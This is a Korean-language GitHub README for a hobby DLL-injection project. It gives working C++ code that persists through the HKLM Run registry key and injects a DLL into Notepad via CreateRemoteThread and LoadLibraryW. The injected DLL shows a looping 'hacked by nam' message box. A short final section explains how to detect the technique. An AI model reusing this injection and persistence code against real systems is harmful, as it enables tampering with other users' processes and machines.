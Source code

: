 # DLL_Injection
> made by nam


메모장이 켜질때마다 DLL을 삽입하여 내가 원하는 작동을 하도록 실행하는 프로그램    
    

## 소스해석
### DLL 소스
```C++
DWORD WINAPI ThreadProc(LPVOID lparm) {
    int a=0, b=0, c=0;
    int flag = 0,return_val;
    while (1) {
        if (flag)
            break;
        for (int i = 0; i < (a * b * c) + 1; i++) {
            return_val=MessageBox(NULL, L"hacked by nam", L"LOL", MB_YESNOCANCEL|MB_ICONWARNING);
            if (return_val == IDYES)
                a++;
            else if (return_val == IDNO)
                b++;
            else if (return_val == IDCANCEL)
                c++;

            if (a == 4&&b == 2&&c == 5) {
                flag = 1;
                break;
            }
        }

    }
    return 0;
}
```
messagebox에서 나오는 버튼 3개를 각각 4 2 5번 누르면 꺼지게 동작

### 메인소스

```C++
void register_program() {
	HKEY  m_hRegsKey;
	const WCHAR* regItemName = L"dll_injection_by_nam";
	const WCHAR* val = L"C:\\Users\\nam\\source\\repos\\dll_injection\\x64\\Debug\\dll_injection.exe";
	RegCreateKey(HKEY_LOCAL_MACHINE, L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", &m_hRegsKey);
	RegSetValueEx(m_hRegsKey, regItemName, NULL, REG_SZ,(const byte*)val, 134);//lstrlen(val)*2
	RegCloseKey(m_hRegsKey);
}
```
SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run 에 추가하여 컴퓨터 시작될때마다 자동으로 실행되게 만드는 함수 </br></br>


```C++
DWORD32 get_pid(wstring proc_name) {

	PROCESSENTRY32 pe32;
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
	pe32.dwSize = sizeof(PROCESSENTRY32);
	Process32First(hSnapshot, &pe32);
	do {
		wstring num = pe32.szExeFile;
		if (!wcscmp(num.c_str(), proc_name.c_str())) {
			return pe32.th32ProcessID;
		}

	} while (Process32Next(hSnapshot, &pe32));
	return 0;
}
```
구할 프로세스의 이름을 인자로 주면 PID를 리턴하는 함수 </br></br>

```C++
BOOL dll_inject(DWORD hwPID, LPCTSTR DllPath) {
	HANDLE hProcess = NULL;
	HANDLE hThread = NULL; 
	HMODULE hMod = NULL; 
	LPVOID pRemoteBuf = NULL; 
	LPTHREAD_START_ROUTINE pThreadProc; 
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, hwPID);
	
	DWORD dwBufSize = (DWORD)(_tcslen(DllPath) + 1) * sizeof(TCHAR);
	
	pRemoteBuf = VirtualAllocEx(hProcess, NULL, dwBufSize, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, pRemoteBuf, (LPVOID)DllPath, dwBufSize, NULL); 
	hMod = GetModuleHandle(TEXT("kernel32.dll"));
	pThreadProc = (LPTHREAD_START_ROUTINE)GetProcAddress(hMod, "LoadLibraryW");
	hThread = CreateRemoteThread(hProcess, NULL, 0, pThreadProc, pRemoteBuf, 0, NULL);
	WaitForSingleObject(hThread, INFINITE); 
	CloseHandle(hThread); 
	CloseHandle(hProcess); 
	return 1; 
}
```
DLL 인젝션의 핵심 부분이다.    
1. **OpenProcess**(**dwDesiredAccess**:접근권한, **bInheritHandle**:TRUE면 핸들을 상속, FALSE면 상속X, **dwProcessId**:프로세스 식별자(PID)) 리턴값으로 대상 프로세스의 핸들을 구한다.   
2. **VirtualAllocEx**(**hProcess**:인젝션할 프로세스의 핸들, **lpAddress**:할당할 주소로 NULL을 넣으면 자동, **dwSize**:할당할 메모리의 크기(byte), **flAllocationType**:할당유형-전체메모리 내에 할당하려면 MEM_COMMIT(0x1000), **flProtect**:할당된페이지에 대한 권한)    
리턴값으로 대상 프로세스에 LPVOID형의 메모리 공간을 확보해 DLL의 경로를 넣을 공간을 만든다.

3. **WriteProcessMemory**(**hProcess**:프로세스의 핸들, **lpBaseAddress**:DLL절대경로를 작성할 주소, **lpBaseAddress**:DLL의 절대경로가 작성된주소, **nSize**:Write할 바이트 크기(DLL의 절대경로의 길이보다 크게 지정), **lpNumberOfBytesWritten**:Write가 잘 되었는지 작성한 바이트를 저장하는 주소)    

4. **GetModuleHandle**(TEXT("kernel32.dll"));
5. **GetProcAddress**(hMod, "LoadLibraryW");    
LoadLibrary는 kernel32.dll에 존재하므로 kernel32.dll의 핸들을 얻고 LoadLibrary의 주소를 구한다.

6. **CreateRemoteThread**(**hProcess**:프로세스의 핸들, **lpThreadAttributes**:보안속성-특별한 속성이 없다면 NULL, **dwStackSize**:스택의 초기사이즈(byte)-0을 넣으면 실행파일의 default size를 사용, **lpStartAddress**:스레드의 시작주소, **lpParamete**r:스레드가 실행할 함수의 파라미터, **dwCreationFlags** : 0을 넣으면 스레드 생성직후에 실행, **lpThreadId** : 스레드식별자(TID)를 저장하기위한 주소)

</br></br>
## 탐지방법
CreateRemoteThread의 인자중 lpStartAddress의 인자로 GetProcAddress로 얻어온 LoadLibrary주소가 들어가게 되는데 이부분을 탐지하면 된다.


